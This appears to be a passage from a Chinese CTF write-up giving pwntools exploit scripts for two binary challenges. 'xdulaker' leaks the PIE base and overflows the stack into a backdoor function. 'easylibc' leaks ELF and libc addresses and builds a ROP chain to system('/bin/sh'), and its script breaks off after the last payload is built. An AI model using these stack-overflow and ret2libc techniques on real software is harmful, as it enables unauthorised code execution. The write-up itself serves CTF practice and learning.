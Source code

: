 ```python
p.interactive()
```

# xdulaker

pull函数给了程序基址可得到后门函数真实地址，laker函数存在栈上未初始化字符串，可在photo函数中输入。

```Python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=process('./pwn')
#libc = ELF("./libc.so.6")
elf = ELF('./pwn')
#gdb.attach(p)
#pause()
p.sendlineafter(b'>',b'1')
p.recvuntil(b':')
addr=int(p.recv(14),16)
pie=addr-0x4010
log.debug(hex(pie))
bkd=pie+0x124E

p.sendlineafter(b'>',b'2')
payload=b'a'*0x20+b'xdulaker'
p.sendafter(b'?!',payload)

p.sendlineafter(b'>',b'3')
payload=b'a'*0x38+p64(bkd)
p.sendafter(b'ker',payload)

p.interactive()
```

# easylibc

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug', terminal=['wt.exe','wsl'])
libc = ELF('./libc.so.6')
p = process('./pwn')
# p = gdb.debug('./pwn', 'b main')
# p = remote('127.0.0.1',39137)
p.recvuntil(b'How can I use ')
elf_leak = int(p.recvn(14),16)
elf_base = elf_leak - 0x1060
print('elf base = ',hex(elf_base))
payload = b'a' * 0x20 + p64(elf_base + 0x4500) + p64(elf_base + 0x11EE)


p.send(payload)
p.recvuntil(b'How can I use ')
leak = int(p.recvn(14),16)
print('leak:', hex(leak))
libc_base = leak - 0x1147d0
print('libc_base:', hex(libc_base))
system = libc_base + libc.symbols['system']
print('system:', hex(system))
binsh = libc_base + next(libc.search(b'/bin/sh'))
print('binsh:', hex(binsh))
ret = libc_base + 0x29139
rdi = libc_base + 0x2a3e5

payload = b'a' * 0x20 + p64(elf_base + 0x4500) + p64(ret) + p64(rdi) + p64(binsh) + p64(system)
```